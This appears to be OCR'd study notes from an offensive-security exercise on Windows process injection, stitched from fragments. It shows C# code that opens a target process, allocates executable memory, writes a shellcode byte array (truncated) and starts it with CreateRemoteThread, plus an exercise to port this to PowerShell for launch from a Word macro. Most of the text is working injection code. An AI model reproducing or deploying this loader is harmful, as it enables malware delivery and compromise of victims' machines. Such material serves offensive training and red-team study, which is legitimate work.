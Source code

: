 ```csharp
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr,IntPtr.Zero, 0, IntPtr.Zero);
        }

        
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}


```

3. Port the code from C# to PowerShell to allow process injection and shellcode execution 
from a Word macro through PowerShell. Remember that PowerShell is started as 32-bit, so 
instead of injecting into explorer.exe, start a 32-bit process such as Notepad and inject into 
that instead.

how to add - using add type

```powershell
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
 [DllImport("user32.dll", CharSet=CharSet.Auto)]
 public static extern int MessageBox(IntPtr hWnd, String text, String caption, int
options);
}
"@
Add-Type $User32
[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

the code in C#

```c#
using System;
using System.Runtime.InteropServices;
namespace Inject
{
 class Program
 {
 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
processId);
 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
dwSize, uint flAllocationType, uint flProtect);
 [DllImport("kernel32.dll")]
 static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
 [DllImport("kernel32.dll")]
 static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
dwCreationFlags, IntPtr lpThreadId);
 static void Main(string[] args)
 {
 IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
 IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
 byte[] buf = new byte[591] {

0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
```